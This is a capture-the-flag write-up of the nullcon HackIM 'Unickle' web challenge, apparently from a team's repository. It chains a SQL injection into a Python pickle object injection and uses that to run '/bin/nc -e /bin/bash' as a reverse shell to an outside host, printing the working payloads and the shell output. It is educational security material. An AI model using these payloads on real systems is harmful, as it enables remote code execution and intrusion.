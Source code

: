 # nullcon HackIM : Unickle

**Category:** Web
**Points:** 200
**Solves:** 
**Description:**

> OSaaS is the new trend for 2016! Store your object directly in the cloud. Get rid of the hassle of managing your own storage for object with Osaas. Unickle currently offers a beta version that demonstrates how OSaaS will make the internet a better place... One object at a time!!
> 
> 
> <http://54.84.124.93/>

[Server files](./var/www)

## Write-up

**by d1rt**

Immediately on visiting the target URL you're greeted with a list of "objects", each has an id.

```http://54.84.124.93/?cat=1```

The `cat` param is a sql injection opportunity

```http://54.84.124.93/?cat=1/**/or/**/1=1/**/union/**/all/**/select/**/1,2,3,4--```

This injection leads to a Python error being printed on the final row of the output table in the 3rd field.

```1    2    'int' object has no attribute 'encode'  4```

This means we now control a payload that is being passed to Python for execution, based on the output of other fields and hints in intro, it's a Python object injection flaw.  Now we craft our injected object.

```
#!/usr/bin/python2

import pickle
import os

class Inject(object):
    def __reduce__(self):
        return (os.system, ('/bin/ls',))

print pickle.dumps(Inject())
```

Confirm it works

```
$ ./makepickle.py 
cposix
system
p0
(S'/bin/ls'
p1
tp2
Rp3
.
```

Not sqli friend, need to change out those new lines

```
$ ./makepickle.py | awk '{printf $1"%0a"}'
cposix%0asystem%0ap0%0a(S'/bin/ls'%0ap1%0atp2%0aRp3%0a.%0a
```

Now use it in the injection

```http://54.84.124.93/?cat=1/**/or/**/1=1/**/union/**/all/**/select/**/1,2,%27cposix%0asystem%0ap0%0a(S'/bin/ls'%0ap1%0atp2%0aRp3%0a.%0a%27,4--```

We have a functional injection, but not the value we'd expected

```1    2   512  4```

We then use the injection to trigger a reverse shell using netcat

```http://54.84.124.93/?cat=1/**/or/**/1=1/**/union/**/all/**/select/**/1,2,%27cposix%0asystem%0ap0%0a(S'/bin/nc -e/bin/bash 1.3.3.7 31337'%0ap1%0atp2%0aRp3%0a.%0a%27,4--```

```
$nc -vvv -l -p 31337
Listening on any address 31337
Connection from 54.84.124.93:47281
find / -name 'flag'
/var/www/flag
cat /var/www/flag
flag{OSaaS_with_union_and_tickle_trend_it_is!}
```


## Other write-ups and resources

* none yet
